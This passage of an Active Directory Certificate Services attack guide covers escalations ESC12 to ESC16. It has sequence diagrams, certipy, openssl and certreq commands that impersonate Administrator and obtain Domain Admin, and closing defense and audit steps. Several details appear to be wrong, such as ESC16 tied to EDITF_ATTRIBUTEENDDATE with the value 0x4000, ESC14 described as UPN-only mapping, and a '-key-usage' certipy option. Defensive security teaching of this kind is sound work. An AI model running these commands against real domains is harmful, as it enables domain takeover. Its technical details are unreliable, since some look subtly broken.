    HSM->>HSM: Unauthorized access<br/>to master key

    HSM->>A: Obtain HSM master key

    Note over A: Extract CA private key

    A->>CA: Extract CA private key
    Note over A: Retrieve CA signing key<br/>from HSM

    CA->>A: CA private key (RSA/ECC)

    Note over A: Can sign any certificate

    A->>A: Create forged certificate
    Note over A: Subject: Administrator<br/>Issuer: corp-DC01-CA

    A->>A: Sign with CA private key

    Note over A: Authenticate with forged certificate

    A->>DC: Present forged certificate
    DC->>DC: Verify with CA public key
    Note over DC: Signature is valid<br/>(signed with CA private key)

    DC->>A: Issue Administrator TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**Note**: ESC12 is highly specific and depends on a particular YubiHSM2 vulnerability. Actual attack commands depend on the CVE.

**1. Detect YubiHSM2**

```bash
# Confirm YubiHSM2 usage on the CA server
certutil -store my

# Or
Get-ChildItem Cert:\LocalMachine\My | Where-Object {$_.PrivateKey.CspKeyContainerInfo.ProviderName -like "*Yubi*"}
```

**2. Check Vulnerability (hypothetical example)**

```bash
# Check YubiHSM2 firmware version
# (Actual tool depends on CVE)

# If a vulnerable version is found, run exploit
```

**3. Extract CA Private Key (conceptual)**

```bash
# Extract private key from HSM (hypothetical example)
# Actual method depends on vulnerability

# Sign a certificate using extracted private key
openssl req -new -x509 -key ca_private_key.pem -out fake_cert.pem -days 365 -subj "/CN=Administrator"
```

**4. Authenticate with Forged Certificate**

```bash
# Convert forged certificate to PFX
openssl pkcs12 -export -out fake_admin.pfx -inkey user_key.pem -in fake_cert.pem

# Authenticate
certipy auth -pfx fake_admin.pfx -dc-ip 10.10.10.100
```

**5. Defenses**

```powershell
# Update YubiHSM2 firmware to latest version
# Strengthen YubiHSM2 access controls
# Enhance HSM log monitoring
```

---

## ESC13: Issuance Policy with Privileged Group Linked

### Attack Conditions

- ✅ The certificate template has an **Issuance Policy** OID set
- ✅ That OID is linked to a **privileged group** (Domain Admins, Enterprise Admins, etc.)
- ✅ A low-privileged user can enroll in that template

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as "Attacker (Low-Privileged User)"
    participant T as Certificate Template
    participant CA as Certificate Authority
    participant DC as Domain Controller
    participant AD as Active Directory

    Note over T: Issuance Policy OID:<br/>1.2.3.4.5.6.7.8.9<br/>→ Linked to Domain Admins

    Note over AD: msDS-OIDToGroupLink:<br/>OID 1.2.3.4.5.6.7.8.9 =<br/>CN=Domain Admins,CN=Users,DC=corp,DC=local

    A->>T: Certificate request
    Note over A: Template that even<br/>low-privileged users can enroll in

    T->>CA: Certificate request

    CA->>A: Issue certificate with Issuance Policy
    Note over CA: Certificate includes OID 1.2.3.4.5.6.7.8.9

    Note over A: Authentication phase

    A->>DC: Authenticate with certificate
    Note over A: PKINIT / Schannel

    DC->>DC: Check certificate's Issuance Policy
    Note over DC: OID: 1.2.3.4.5.6.7.8.9

    DC->>AD: Check OID mapping
    AD->>DC: OID → Domain Admins

    DC->>DC: Grant group membership
    Note over DC: Certificate-based<br/>group membership

    DC->>A: Issue TGT as Domain Admins

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Check Issuance Policy**

```powershell
# Check OID-to-group links in AD
Get-ADObject -Filter {objectClass -eq "msPKI-Enterprise-Oid"} -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties *

# Check msDS-OIDToGroupLink attribute
```

**2. Vulnerability Scan**

```bash
# Detect ESC13 with Certipy
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC13"
```

**3. Certificate Request**

```bash
# Request certificate from Issuance Policy template
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'ESC13Template'

# Output: john.pfx (with Issuance Policy)
```

**4. Authentication**

```bash
# Authenticate with certificate
certipy auth -pfx john.pfx -dc-ip 10.10.10.100

# Authenticated as Domain Admins via Issuance Policy
```

**5. Check OID Link (detailed)**

```powershell
# Check with PowerShell
$oid = Get-ADObject -Filter {cn -eq "1.2.3.4.5.6.7.8.9"} -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties *

$oid.'msDS-OIDToGroupLink'
# Output: CN=Domain Admins,CN=Users,DC=corp,DC=local
```

**6. Defenses**

```powershell
# Remove unnecessary OID links
Set-ADObject -Identity "CN=1.2.3.4.5.6.7.8.9,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Clear msDS-OIDToGroupLink

# Or disable Issuance Policy
```

---

## ESC14: Weak Explicit Certificate Mapping

### Attack Conditions

- ✅ **StrongCertificateBindingEnforcement** is set to **0** (disabled) or **1** (partial)
- ✅ Weak certificate mapping is permitted

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over DC: Setting:<br/>StrongCertificateBindingEnforcement = 0 or 1<br/>(weak certificate mapping)

    A->>CA: Certificate request
    Note over A: SAN UPN:<br/>Administrator@corp.local

    CA->>A: Issue certificate

    Note over A: Authentication phase

    A->>DC: Authenticate with certificate<br/>(PKINIT)

    DC->>DC: Process certificate mapping
    Note over DC: StrongCertificateBindingEnforcement<br/>= 0 or 1<br/>→ Insufficient SID validation

    DC->>DC: Authenticate by UPN only
    Note over DC: SAN UPN:<br/>Administrator@corp.local

    DC->>DC: Skip SID validation
    Note over DC: Weak mapping

    DC->>A: Authentication successful as Administrator

    A->>DC: TGT request
    DC->>A: Issue Administrator TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Check StrongCertificateBindingEnforcement**

```powershell
# Check DC registry
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement"

# Value meanings:
# 0 = Disabled (most vulnerable)
# 1 = Compatibility mode (partial)
# 2 = Full enforcement (secure)
```

**2. Obtain Certificate (using another ESC)**

```bash
# Obtain Administrator's certificate with ESC1 etc.
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**3. Authentication**

```bash
# Authenticate with weak mapping
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Mapped by UPN only, SID validation is skipped
```

**4. Remediation (Defender)**

```powershell
# Enforce strong certificate binding
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2

# Restart KDC service
Restart-Service kdc
```

**5. Apply Windows Updates**

```powershell
# Apply KB5014754 or later updates
# This strengthens the default for StrongCertificateBindingEnforcement
```

---

## ESC15: Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")

### Attack Conditions

- ✅ The certificate template is **Schema Version 1** (legacy format)
- ✅ No **Application Policy** is defined on the template
- ✅ A low-privileged user has **Enroll** permission

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant V1 as "V1 Certificate Template"
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over V1: Schema Version 1<br/>(msPKI-Template-Schema-Version = 1)
    Note over V1: Application Policy is undefined

    A->>V1: Inspect template
    V1->>A: V1 template detected<br/>No Application Policy

    Note over A: Build certificate request

    A->>A: Add arbitrary<br/>Application Policy to CSR
    Note over A: Examples:<br/>- Client Authentication (1.3.6.1.5.5.7.3.2)<br/>- Smart Card Logon (1.3.6.1.4.1.311.20.2.2)

    A->>CA: Certificate enrollment request<br/>(CSR with Application Policy)

    CA->>CA: Validate V1 template
    Note over CA: Application Policy<br/>validation is insufficient

    CA->>CA: Accept Application Policy<br/>from CSR as-is

    CA->>A: Issue certificate with arbitrary Application Policy
    Note over CA: Client Authentication EKU<br/>Smart Card Logon EKU, etc.

    Note over A: Authentication phase

    A->>DC: Authenticate with certificate<br/>(use as Client Authentication)

    DC->>DC: Check EKU:<br/>Client Authentication
    Note over DC: Certificate has valid EKU

    DC->>A: Issue TGT

    Note over A: Authentication successful<br/>(used for a purpose not originally permitted)
```

### Attack Commands

**1. Detect V1 Templates**

```powershell
# Search for V1 templates with PowerShell
Get-ADObject -Filter {objectClass -eq "pKICertificateTemplate"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties msPKI-Template-Schema-Version | Where-Object {$_.'msPKI-Template-Schema-Version' -eq 1}
```

```bash
# Detect V1 templates with Certipy
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -B 5 "Schema Version.*: 1"
```

**2. Application Policy Injection (OpenSSL)**

```bash
# Create CSR with OpenSSL and add Application Policy

# Add to openssl.cnf:
cat >> openssl.cnf << EOF
[v3_req]
extendedKeyUsage = clientAuth, smartcardLogon
EOF

# Create CSR
openssl req -new -key user.key -out user.csr -config openssl.cnf -extensions v3_req -subj "/CN=john"

# Base64 encode the CSR
cat user.csr | base64 -w 0
```

**3. Attack with Certipy (when directly supported)**

```bash
# Inject arbitrary EKU into V1 template with Certipy
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'V1Template' -key-usage 'clientAuth,smartcardLogon'

# Or
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'V1Template' -upn 'administrator@corp.local' -key-usage 'clientAuth'
```

**4. Manual CSR Submission (Windows)**

```powershell
# Submit CSR with certreq
certreq -submit -config "DC01\corp-DC01-CA" -attrib "CertificateTemplate:V1Template" user.csr

# Retrieve certificate
certreq -retrieve [RequestId] user.cer
```

**5. Authentication**

```bash
# Authenticate with the obtained certificate
certipy auth -pfx user.pfx -dc-ip 10.10.10.100
```

**6. Defenses**

```powershell
# Upgrade V1 templates to V2/V3/V4
# Or disable V1 templates

# Check template schema version
Get-ADObject -Filter {cn -eq "V1Template"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties msPKI-Template-Schema-Version

# Disable V1 template
Set-ADObject -Identity "CN=V1Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Replace @{flags=131072}
```

---

## ESC16: Security Extension Disabled on CA (Globally)

### Attack Conditions

- ✅ The CA has the **EDITF_ATTRIBUTEENDDATE** flag set
- ✅ This disables the Security Extension on **all certificates**
- ✅ Weak certificate mapping is enabled

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant CA as Certificate Authority
    participant T as Any Template
    participant DC as Domain Controller

    Note over CA: CA registry setting:<br/>EditFlags includes<br/>EDITF_ATTRIBUTEENDDATE

    Note over CA: This setting disables<br/>Security Extension on<br/>all certificates

    A->>T: Request certificate from any template
    Note over A: SAN UPN:<br/>Administrator@corp.local

    T->>CA: Certificate request

    CA->>CA: Check EDITF_ATTRIBUTEENDDATE
    Note over CA: Flag is enabled<br/>→ Do not generate Security Extension

    CA->>A: Issue certificate<br/>(without Security Extension)

    Note over A: SID validation is skipped<br/>for all certificates

    A->>DC: Authenticate with certificate

    DC->>DC: Check Security Extension
    Note over DC: No Security Extension<br/>→ Skip SID validation

    DC->>DC: Authenticate by UPN only
    Note over DC: Weak certificate mapping

    DC->>A: Authentication successful as Administrator

    A->>DC: TGT request
    DC->>A: Issue Administrator TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Check CA Settings**

```powershell
# Windows: Check CA EditFlags
certutil -config "DC01\corp-DC01-CA" -getreg policy\EditFlags

# Check if output contains EDITF_ATTRIBUTEENDDATE
```

```bash
# Linux: Check with Certipy
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "EDITF_ATTRIBUTEENDDATE"
```

**2. Certificate Request**

```bash
# Request Administrator's certificate from any template
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -upn 'administrator@corp.local'

# Certificate is issued without Security Extension
```

**3. Authentication**

```bash
# Authenticate with weak mapping
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Mapped by UPN only
```

**4. Check CA Settings (via registry directly)**

```powershell
# Check registry on the CA server
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\corp-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy" -Name "EditFlags"

# Check EditFlags value
# EDITF_ATTRIBUTEENDDATE = 0x00004000
```

**5. Remediation (Defender)**

```powershell
# Disable EDITF_ATTRIBUTEENDDATE
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTEENDDATE

# Restart CA service
Restart-Service certsvc
```

**6. Fix via Registry Directly**

```powershell
# Remove 0x00004000 from EditFlags
$path = "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\corp-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy"
$currentFlags = (Get-ItemProperty -Path $path -Name "EditFlags").EditFlags
$newFlags = $currentFlags -band (-bnot 0x00004000)
Set-ItemProperty -Path $path -Name "EditFlags" -Value $newFlags

Restart-Service certsvc
```

---

## Summary: Detection and Defense Against ESC Attacks

### General Detection Methods


```mermaid
sequenceDiagram
    participant A as Security Auditor
    participant Tools as Certify / Certipy
    participant AD as Active Directory
    participant CA as Certificate Authority
    participant Logs as Event Logs

    Note over A: Phase 1: Vulnerability scan

    A->>Tools: certify find /vulnerable<br/>or<br/>certipy find -vulnerable

    Tools->>AD: Enumerate AD CS configuration
    Tools->>CA: Check CA configuration

    AD->>Tools: Template information
    CA->>Tools: CA configuration information

    Tools->>A: Vulnerability report<br/>(ESC1-16)

    Note over A: Phase 2: Log monitoring

    A->>Logs: Review event logs
    Note over A: Event IDs:<br/>- 4886: Certificate request received<br/>- 4887: Certificate issued<br/>- 4888: Certificate request denied

    Logs->>A: Detect anomalous certificate requests

    Note over A: Phase 3: BloodHound analysis

    A->>Tools: certipy find -bloodhound
    Tools->>A: BloodHound JSON data

    A->>A: Visualize attack paths<br/>in BloodHound
```

### Implementing Defenses

**1. Harden Template Settings**

```powershell
# Disable CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT
Set-ADObject -Identity "CN=Template,CN=Certificate Templates,..." -Replace @{'msPKI-Certificate-Name-Flag'=0}

# Remove unnecessary EKUs
Set-ADObject -Identity "CN=Template,CN=Certificate Templates,..." -Clear pKIExtendedKeyUsage
```

**2. Harden CA Settings**

```powershell
# Disable EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2

# Enforce strong certificate binding
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2
```

**3. Protect Web Enrollment**

```powershell
# Enforce HTTPS only
# Disable HTTP
```

**4. Regular Auditing**

```powershell
# Weekly vulnerability scan
.\Certify.exe find /vulnerable

# Monthly permission audit
Get-DomainObjectAcl -Identity "CN=Certificate Templates,..." | Export-Csv audit.csv
```
